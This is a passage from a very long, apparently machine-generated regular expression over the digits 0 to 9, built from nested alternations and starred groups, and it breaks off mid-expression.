|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(6|70*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|0|70*7)((((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(4|50*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|0|50*5)(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(0|10*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|10*7|6)|((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0